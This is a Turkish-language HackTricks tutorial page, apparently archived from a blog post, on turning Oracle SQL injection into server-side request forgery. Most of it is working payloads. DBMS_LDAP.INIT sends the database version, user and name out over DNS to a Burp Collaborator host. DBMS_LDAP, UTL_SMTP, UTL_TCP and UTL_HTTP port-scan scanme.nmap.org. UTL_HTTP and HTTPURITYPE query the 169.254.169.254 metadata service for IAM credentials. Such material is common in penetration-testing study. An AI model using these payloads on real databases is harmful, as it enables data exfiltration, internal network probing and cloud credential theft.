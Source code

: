 # Oracle injection

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Bu gönderiyi [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) adresinden silinmiş gönderinin wayback machine kopyası olarak sunun.**

## SSRF

Oracle kullanarak Out of Band HTTP ve DNS istekleri yapmak iyi belgelenmiştir, ancak bu, enjeksiyonlarda SQL verilerini dışarı sızdırmanın bir yolu olarak kullanılmaktadır. Bu teknikleri/fonksiyonları her zaman diğer SSRF/XSPA'ları yapmak için değiştirebiliriz.

Oracle'ı kurmak gerçekten acı verici olabilir, özellikle de komutları denemek için hızlı bir örnek kurmak istiyorsanız. [Appsecco](https://appsecco.com) şirketindeki arkadaşım ve meslektaşım [Abhisek Datta](https://github.com/abhisek), bana bir t2.large AWS Ubuntu makinesinde ve Docker'da bir örnek kurmamı sağlayan [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) adresini gösterdi.

Docker komutunu `--network="host"` bayrağı ile çalıştırdım, böylece bu blog yazısının süresince Oracle'ı tam ağ erişimi ile yerel bir kurulum olarak taklit edebildim.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### URL veya Hostname/Port Numarası belirtimini destekleyen Oracle paketleri <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Bir host ve port belirtimini destekleyen paketler ve fonksiyonlar bulmak için, [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) üzerinde bir Google araması yaptım. Özellikle,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Arama aşağıdaki sonuçları döndürdü (hepsi dışa ağ bağlantısı gerçekleştirmek için kullanılamaz)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Bu kaba arama açıkça `DBMS_LDAP` gibi paketleri atlıyor (bir ana bilgisayar adı ve port numarası geçişine izin verir) çünkü [belgelendirme sayfası](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) sizi [farklı bir konuma](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) yönlendiriyor. Bu nedenle, dışa istekler yapmak için kötüye kullanılabilecek başka Oracle paketleri olabilir, bunları atlamış olabilirim.

Her durumda, keşfettiğimiz ve yukarıda listelediğimiz bazı paketlere bakalım.

**DBMS\_LDAP.INIT**

`DBMS_LDAP` paketi, LDAP sunucularından veri erişimine olanak tanır. `init()` fonksiyonu, bir LDAP sunucusuyla bir oturum başlatır ve bir ana bilgisayar adı ve port numarasını argüman olarak alır.

Bu fonksiyon, aşağıdaki gibi DNS üzerinden veri sızdırma gösterimi için daha önce belgelenmiştir.
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Ancak, fonksiyonun bir ana bilgisayar adı ve bir port numarası argümanları kabul ettiğini göz önünde bulundurursak, bunu bir port tarayıcı gibi çalışmak için de kullanabilirsiniz.

İşte birkaç örnek
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.`, bir oturum değerinin portun açık olduğunu gösterirken, portun kapalı olduğunu gösterir.

**UTL\_SMTP**

`UTL_SMTP` paketi, SMTP üzerinden e-posta göndermek için tasarlanmıştır. [Oracle belgeleri sitesinde sağlanan örnek, bu paketi kullanarak nasıl e-posta gönderebileceğinizi göstermektedir](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Ancak bizim için ilginç olan, bir ana bilgisayar ve port belirtme yeteneğidir.

Aşağıda, 2 saniyelik bir zaman aşımı ile `UTL_SMTP.OPEN_CONNECTION` fonksiyonu ile basit bir örnek gösterilmektedir.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
`ORA-29276: transfer timeout` açık bir portun olduğunu gösterir ancak SMTP bağlantısı kurulmamıştır, `ORA-29278: SMTP transient error: 421 Service not available` ise portun kapalı olduğunu gösterir.

**UTL\_TCP**

`UTL_TCP` paketi ve prosedürleri ile fonksiyonları, [hizmetlerle TCP/IP tabanlı iletişim sağlar](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Belirli bir hizmet için programlandığında, bu paket ağa giriş yapmak veya tüm Sunucu Tarafı İsteklerini gerçekleştirmek için kolayca bir yol haline gelebilir, çünkü bir TCP/IP bağlantısının tüm yönleri kontrol edilebilir.

Oracle dokümantasyon sitesindeki [örnek, bu paketi kullanarak bir web sayfasını almak için ham bir TCP bağlantısı nasıl yapılacağını göstermektedir](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Bunu biraz daha basitleştirip, örneğin, metadata örneğine veya keyfi bir TCP/IP hizmetine istek yapmak için kullanabiliriz.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
İlginç bir şekilde, ham TCP istekleri oluşturma yeteneği sayesinde, bu paket tüm bulut sağlayıcılarının Instance meta-veri hizmetine sorgu göndermek için de kullanılabilir, çünkü yöntem türü ve ek başlıklar TCP isteği içinde iletilebilir.

**UTL\_HTTP ve Web İstekleri**

Belki de her Out of Band Oracle SQL Injection eğitiminde en yaygın ve en çok belgelenmiş teknik [`UTL_HTTP` paketi](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070) dir. Bu paket, belgelerde şu şekilde tanımlanmıştır - `UTL_HTTP paketi, SQL ve PL/SQL'den Hypertext Transfer Protocol (HTTP) çağrıları yapar. HTTP üzerinden İnternetteki verilere erişmek için kullanabilirsiniz.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Ayrıca, bunu şu tür sorgularla bazı temel port taramaları gerçekleştirmek için de kullanabilirsiniz.
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Bir `ORA-12541: TNS:no listener` veya `TNS:operation timed out` TCP portunun kapalı olduğunun işaretiyken, bir `ORA-29263: HTTP protocol error` veya veri, portun açık olduğunun işaretidir.

Geçmişte çeşitli başarılarla kullandığım başka bir paket, bir URL ile etkileşimde bulunmanıza ve HTTP protokolünü desteklemenize olanak tanıyan [`HTTPURITYPE` Oracle soyut türünün `GETCLOB()` yöntemi](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705)'dir. `GETCLOB()` yöntemi, bir URL'den GET yanıtını [CLOB veri türü olarak](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) almak için kullanılır. [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
